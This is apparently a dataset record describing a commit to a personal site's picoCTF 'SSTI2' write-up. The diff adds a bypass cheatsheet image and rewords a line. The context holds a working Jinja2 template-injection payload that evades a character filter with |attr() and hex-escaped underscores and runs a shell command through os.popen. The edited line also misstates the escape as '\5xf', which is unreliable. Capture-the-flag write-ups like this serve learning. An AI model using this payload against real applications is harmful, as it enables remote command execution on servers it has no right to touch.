

Before and after one commit to ghx312/ghx312.github.io, a Jekyll site: the page built from _pages/writeups/picoctf/web/medium/ssti2.md, in a window 1280 px wide. Shown: the part 805-2725 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added SSTI2 Jinja2 Bypass Cheatsheet

```diff
--- a/_pages/writeups/picoctf/web/medium/ssti2.md
+++ b/_pages/writeups/picoctf/web/medium/ssti2.md
@@ -33,8 +33,10 @@
 
 {% raw %} `{{ config.items }}` {% endraw %}  -> Confirmed that the fullstop was blacklisted
 So I went online and found a way to use the fullstop without having to type it out by using |attr() as an alternative.
+![Here lies a picture](/assets/img/picoCTF/ssti2/ssti2_bypass_cheatsheet.png)  w
+
 {% raw %} `{{ cycler|attr('__init__') }}` {% endraw %}  -> Confirmed that the underscore was blacklisted
-I decided the encode the underscore in hex before sending it out, that way the underscore would not be blacklisted but still parsed as an underscore when ran as code.
+We can escape the underscore by using its hex value \5xf, this will bypass the filter but still be recognised as an underscore when the code is running.
 
 Final Payload: {% raw %} `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}` {% endraw %}
 I simply replaced the fullstops and the underscores in the final payload for SSTI1 and it worked as it bypassed the filter and gave me the flag
```
Also changed, not shown: assets/img/picoCTF/ssti2/ssti2_bypass_cheatsheet.png (added).
